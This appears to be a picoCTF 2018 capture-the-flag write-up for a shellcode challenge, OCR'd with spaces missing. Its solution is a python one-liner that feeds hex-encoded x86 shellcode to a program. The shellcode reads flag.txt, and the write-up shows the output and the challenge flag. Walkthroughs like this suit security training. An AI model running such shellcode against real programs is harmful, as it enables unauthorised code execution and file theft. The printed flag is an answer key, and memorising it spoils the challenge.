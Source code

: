 #LEVELGOAL

Thisprogram[1]executesanyinputyougiveit.Canyougetashell?Youcanfindtheprogramin/problems/shellcode_2_0caa0f1860741079dd0a66ccf032c5f4ontheshellserver.Source[2].

#HINTS

(1)Maybetrywritingsomeshellcode?(2)Youalsomightbeabletofindsomegoodshellcodeonline.

#SOLUTION

`nikel@pico-2018-shell-1:/problems/shellcode_2_0caa0f1860741079dd0a66ccf032c5f4$python-c'print("31c031db31c931d2eb325bb00531c9cd8089c6eb06b00131dbcd8089f3b00383ec018d0c24b201cd8031d`

`b39c374e6b004b301b201cd8083c401ebdfe8c9ffffff666c61672e747874".decode("hex"))'|./vuln`

`Enterastring!`

`11112[1̀1̀`

`$̀19t̀flag.txt`

`Thanks!Executingnow...`

`picoCTF{shellc0de_w00h00_8b811b44}`

#FLAG

picoCTF{shellc0de_w00h00_8b811b44}
